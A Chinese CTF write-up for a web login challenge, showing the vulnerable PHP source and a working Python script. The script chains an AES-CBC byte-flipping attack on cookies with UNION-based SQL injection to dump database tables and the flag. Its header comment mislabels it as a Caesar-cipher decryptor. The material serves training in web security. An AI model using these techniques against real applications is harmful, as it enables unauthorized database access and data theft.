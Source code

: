 ## 简单的登录题

题目链接 http://www.shiyanbar.com/ctf/2037

此题目虽然放在第一个，分数也不高，但是还是比较复杂的。

![](http://www.xianxianlabs.com:80/wp-content/uploads/2018/07/aa09c29a88f1b30c98a15dc193bc88c1.png)

抓包发现一个`提示`

![](http://www.xianxianlabs.com:80/wp-content/uploads/2018/07/ba3ad75403b8693ea65bb528c3fd9c86.png)

查看`test.php`，发现是`index.php`的源码。

```php
<?php
define("SECRET_KEY", '***********');
define("METHOD", "aes-128-cbc");
error_reporting(0);
include('conn.php');
function sqliCheck($str){
	if(preg_match("/\\\|,|-|#|=|~|union|like|procedure/i",$str)){
		return 1;
	}
	return 0;
}
function get_random_iv(){
    $random_iv='';
    for($i=0;$i<16;$i++){
        $random_iv.=chr(rand(1,255));
    }
    return $random_iv;
}
function login($info){
	$iv = get_random_iv();
	$plain = serialize($info);
    $cipher = openssl_encrypt($plain, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv);
    setcookie("iv", base64_encode($iv));
    setcookie("cipher", base64_encode($cipher));
}
function show_homepage(){
	global $link;
    if(isset($_COOKIE['cipher']) && isset($_COOKIE['iv'])){
        $cipher = base64_decode($_COOKIE['cipher']);
        $iv = base64_decode($_COOKIE["iv"]);
        if($plain = openssl_decrypt($cipher, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv)){
            $info = unserialize($plain) or die("<p>base64_decode('".base64_encode($plain)."') can't unserialize</p>");
            $sql="select * from users limit ".$info['id'].",0";
            $result=mysqli_query($link,$sql);
            
            if(mysqli_num_rows($result)>0  or die(mysqli_error($link))){
            	$rows=mysqli_fetch_array($result);
				echo '<h1><center>Hello!'.$rows['username'].'</center></h1>';
			}
			else{
				echo '<h1><center>Hello!</center></h1>';
			}
        }else{
            die("ERROR!");
        }
    }
}
if(isset($_POST['id'])){
    $id = (string)$_POST['id'];
    if(sqliCheck($id))
		die("<h1 style='color:red'><center>sql inject detected!</center></h1>");
    $info = array('id'=>$id);
    login($info);
    echo '<h1><center>Hello!</center></h1>';
}else{
    if(isset($_COOKIE["iv"])&&isset($_COOKIE['cipher'])){
        show_homepage();
    }else{
        echo '<body class="login-body" style="margin:0 auto">
                <div id="wrapper" style="margin:0 auto;width:800px;">
                    <form name="login-form" class="login-form" action="" method="post">
                        <div class="header">
                        <h1>Login Form</h1>
                        <span>input id to login</span>
                        </div>
                        <div class="content">
                        <input name="id" type="text" class="input id" value="id" onfocus="this.value=\'\'" />
                        </div>
                        <div class="footer">
                        <p><input type="submit" name="submit" value="Login" class="button" /></p>
                        </div>
                    </form>
                </div>
            </body>';
    }
}
?>
```

代码实现的流程:
1. 提交上来的id，先进行关键字的过滤，防止SQL注入，包括=、-、#、union、like、procedure等等，如果检测到这些敏感字符，则会直接die并返回显示Sql inject detected。
2. 通过过滤的id，服务器会返回两个值：iv与cipher。iv：随机生成的16位值，再经过base64转码。cipher：id序列化、预设的SECRET_KEY（打码）、上面得到的iv值，三者经过aes-128-cbc加密得到cipher值。服务器把iv、cipher设置到cookie然后返回，顺便还显示了一个Hello！
3. 如果Post给服务器的报文，没有包括id，而且cookie里有iv和cipher值，则进入函数show_homepage()；
4. show_homepage()大致过程：将iv、cipher经过base64解码，然后把预设的SECRET_KEY（打码）、iv、cipher经过aes-128-cbc解密，得到plain
5. 如果plain无法反序列化，则die并返回plain的base64编码数据；如果可以序列化，则将id值拼接到sql语句中“select * from users limit .$info['id']  ,0”，并提交到数据库，返回数据，并附在返回的Hello后。

根据程序流程分析，我们的目标是实现sql注入，拿到数据库的内容应该就可以获取到Flag了。目前的sql语句为
```sql
$sql="select * from users limit ".$info['id'].",0";
```
根据sql语句，可以开看到，这条语句永远都返回的0条记录，除非能够进行注入，将后面的`,0`注释掉，才能够获取到数据，如使用语句`1,100#`。

由于过滤了`#、--`，所以尝试用`%00`，用Burp Repeater尝试，将`id=1 %00`，post提交，然后用返回的iv、cipher值，作为第二次的cookie，然后去掉`id=`（这样做的原因是因为源代码如果id参数不存在，则获取到cookie里的各种值作为查询的参数，而cookie内的值为上一次的查询值），再次post，结果能返回`Hello!rootzz`。

如下图
![](http://www.xianxianlabs.com:80/wp-content/uploads/2018/07/c88b2bba218768fd1e01f023a1762152.png)
将cookie按照服务器设置要求进行设置
![](http://www.xianxianlabs.com:80/wp-content/uploads/2018/07/b7af6f0acfa24c36d7ff08492c84cb4c.png)

没有按到flag，推测要获取整个库第一次提交id时，做了过滤，但是第二次提交iv和cipher值，是不会做过滤的，使用cbc翻转一个字节进行攻击（发送一个可以绕过字符过滤的id值，然后通过cbc翻转攻击将一部分需要改变的字符修改为我们想要的，达到sql注入目的）。

1. 提交能经过过滤检测的SQL语句，如id=12
2. 结合得到的iv、cipher，用cbc字节翻转cipher对应id=12中2的字节，得到cipher_new，提交iv、cipher_new
3. 第二次提交得到plain（如果忘了是啥可以往回看）
4. 把iv、plain、‘id=12’序列第一行（16个字节为一行），进行异或操作，得到iv_new
5. 把iv_new、cipher_new，去掉id=xx  post到服务器即可得到  id=1# 的结果，即Hello!rootzz

使用脚本
```
#!/usr/bin/env python
#-*- coding: utf-8 -*-
"""
@Author : darkN0te
@Create date : 2018-07-07
@description : 凯撒轮转密码解密
@Update date :   
"""  
from base64 import *
import urllib
import requests
import re

def denglu(payload,idx,c1,c2):
    url=r'http://ctf5.shiyanbar.com/web/jiandan/index.php'
    payload = {'id': payload}
    r = requests.post(url, data=payload)
    Set_Cookie=r.headers['Set-Cookie']
    iv=re.findall(r"iv=(.*?),", Set_Cookie)[0]
    cipher=re.findall(r"cipher=(.*)", Set_Cookie)[0]
    iv_raw = b64decode(urllib.unquote(iv))
    cipher_raw=b64decode(urllib.unquote(cipher))
    lst=list(cipher_raw)
    lst[idx]=chr(ord(lst[idx])^ord(c1)^ord(c2))
    cipher_new=''.join(lst)
    cipher_new=urllib.quote(b64encode(cipher_new))
    cookie_new={'iv': iv,'cipher':cipher_new}
    r = requests.post(url, cookies=cookie_new)
    cont=r.content
    plain = re.findall(r"base64_decode\('(.*?)'\)", cont)[0]
    plain = b64decode(plain)
    first='a:1:{s:2:"id";s:'
    iv_new=''
    for i in range(16):
        iv_new += chr(ord(first[i])^ord(plain[i])^ord(iv_raw[i]))
    iv_new = urllib.quote(b64encode(iv_new))
    cookie_new = {'iv': iv_new, 'cipher': cipher_new}
    r = requests.post(url, cookies=cookie_new)
    rcont = r.content
    print rcont

denglu('12',4,'2','#')
denglu('0 2nion select * from((select 1)a join (select 2)b join (select 3)c);'+chr(0),6,'2','u')
denglu('0 2nion select * from((select 1)a join (select group_concat(table_name) from information_schema.tables where table_schema regexp database())b join (select 3)c);'+chr(0),7,'2','u')
denglu("0 2nion select * from((select 1)a join (select group_concat(column_name) from information_schema.columns where table_name regexp 'you_want')b join (select 3)c);"+chr(0),7,'2','u')
denglu("0 2nion select * from((select 1)a join (select * from you_want)b join (select 3)c);"+chr(0),6,'2','u')
```

得到结果
```
<h1><center>Hello!rootzz</center></h1>
<h1><center>Hello!2</center></h1>
<h1><center>Hello!users,you_want</center></h1>
<h1><center>Hello!value</center></h1>
<h1><center>Hello!flag{c42b2b758a5a36228156d9d671c37f19}</center></h1>
```

参考链接 https://www.jianshu.com/p/4c1e5d24d781 。
https://blog.csdn.net/csu_vc/article/details/79619309 。
https://blog.csdn.net/jeffreynnn/article/details/77100389 。